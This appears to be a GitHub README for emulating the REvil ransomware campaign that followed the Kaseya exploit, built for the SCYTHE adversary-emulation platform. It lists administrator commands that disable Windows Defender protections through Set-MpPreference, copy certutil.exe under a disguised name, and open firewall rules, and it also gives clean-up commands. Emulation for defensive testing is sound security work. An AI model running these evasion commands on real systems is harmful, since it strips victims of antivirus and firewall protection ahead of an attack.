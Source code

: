 # REvil Campaign following Kaseya Exploit

## Cyber Threat Intelligence
This threat is based on Cyber Threat Intelligence from https://news.sophos.com/en-us/2021/07/04/independence-day-revil-uses-supply-chain-exploit-to-attack-hundreds-of-businesses/

This REvil attack originated with the exploitation of the Kaseya Agent Monitor which runs with privilege. Therefore, this campaign requires running with local administrator privilege. Data exfiltration was not used which is interesting for a mid-2021 ransomware attack.

## Execute the Campaign
To emulate with SCYTHE:
1. Download and import the threat in JSON format to your SCYTHE instance
2. Create a new campaign using HTTPS and set header to User-Agent: curl
3. Import from Existing Threat: REvil-Kaseya
4. Launch Campaign
5. Name the EXE as AGENT.EXE 
6. Execute AGENT.EXE from an elevated cmd.exe

## Manual Emulation
From an administrative cmd.exe:
- ```ping 127.0.0.1 -n 5693```
- ```C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend```
- ```cmd.exe /c copy /Y "%SYSTEMROOT%\System32\certutil.exe" "%SYSTEMROOT%\cert.exe"```
- ```netsh advfirewall firewall set rule group="Network Discovery" new enable=Yes```

### Manual Clean Up
- ```cmd.exe /c del "%SYSTEMROOT%\cert.exe"```
- ```netsh advfirewall firewall set rule group="Network Discovery" new enable=No```
```C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $false -DisableIntrusionPreventionSystem $false -DisableIOAVProtection $false -DisableScriptScanning $false -EnableControlledFolderAccess Enabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Advanced -SubmitSamplesConsent SendAllSamples```